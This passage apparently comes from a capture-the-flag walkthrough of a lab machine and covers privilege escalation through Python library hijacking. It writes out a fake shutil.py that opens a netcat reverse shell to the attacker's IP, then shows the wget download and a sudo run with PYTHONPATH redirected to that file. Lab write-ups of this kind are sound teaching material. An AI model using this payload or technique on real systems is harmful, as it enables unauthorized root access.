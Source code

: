 ```bash
```
backup.py:
```python
waldo@admirer:/opt/scripts$ cat backup.py 
#!/usr/bin/python3

from shutil import make_archive

src = '/var/www/html/'

# old ftp directory, not used anymore
#dst = '/srv/ftp/html'

dst = '/var/backups/html'

make_archive(dst, 'gztar', src)
```
This script makes a backup of the html files in an archive. This script would also run as root. Though this script does not take any user input, it does import an external library through which we could be able to execute code as root. From the python documentation:

*i When a module named spam is imported, the interpreter first searches for a built-in module with that name. If not found, it then searches for a file named spam.py in a list of directories given by the variable sys.path. sys.path is initialized from these locations:
    - The directory containing the input script (or the current directory when no file is specified).
    - PYTHONPATH (a list of directory names, with the same syntax as the shell variable PATH).
    - The installation-dependent default.*

This is where modifying the enironment variable must come in.
Looking back at the pspy-discovered cron job, it's purpose is probably to remove exploit scripts from the home directory after they are executed. A quick check shows no python path currently exists. This would be the ideal thing to change in order to redirect the script to a new shututil module.

### 8. Elevate privileges
We can now create a replacement shutil.py file, as seen below:
```python
def make_archive(var1, var2, var3):
    from os import system
    system('nc -e /bin/sh 10.10.14.173 9999')
```
Start nc on the attacking machine, wget the new shutil.py file, and and then run the admin_tasks.sh script, providing the new PYTHONPATH to the directory we want.
```bash
waldo@admirer:~/.temp$ wget http://10.10.14.173:8000/shutil.py
--2020-07-10 15:26:43--  http://10.10.14.173:8000/shutil.py
Connecting to 10.10.14.173:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 109 [text/plain]
Saving to: ‘shutil.py’

shutil.py         100%[=====================================>]     109  --.-KB/s    in 0s      

2020-07-10 15:26:44 (17.0 MB/s) - ‘shutil.py’ saved [109/109]

waldo@admirer:~/.temp$ sudo PYTHONPATH=/home/waldo/.temp/ /opt/scripts/admin_tasks.sh

[[[ System Administration Menu ]]]
1) View system uptime
2) View logged in users
3) View crontab
4) Backup passwd file
5) Backup shadow file
6) Backup web data
7) Backup DB
8) Quit
```